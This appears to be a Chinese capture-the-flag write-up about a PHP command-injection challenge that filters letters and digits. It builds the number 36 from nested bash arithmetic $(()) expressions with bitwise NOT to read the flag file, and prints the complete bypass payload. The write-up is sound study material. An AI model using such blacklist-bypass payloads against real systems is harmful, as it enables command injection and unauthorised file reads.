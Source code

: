 ``````php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
``````

新增过滤：`. - = [ ' "`  不过给了cat，而且说flag in 36.php 也就是只要能用bash命令构造出 数字即可，而且这里没过滤 `+ | ~ ^`这样的运算符 也没有过滤 `$ () \` 这样构造常用的字符

### 方法一

``````
0
$(())

-1 # 0按位取反
$((~$(())))

-2 # $(( -1 -1)) 相加
$(( $((~$(()))) $((~$(()))) ))

-4 # $(( -2 -2)) 相加
$(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) ))))

-36 # 类推
$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))

-37 # $(( -36 -1))相加
$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))

36 #37按位取反
$(( ~$(($(($(( $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) $(( $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) $(( $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )) )) )) )) )) $(( $(( $((~$(()))) $((~$(()))) )) $(( $((~$(()))) $((~$(()))) )))))) $((~$(())))))))
``````


[ERROR]: could not find driver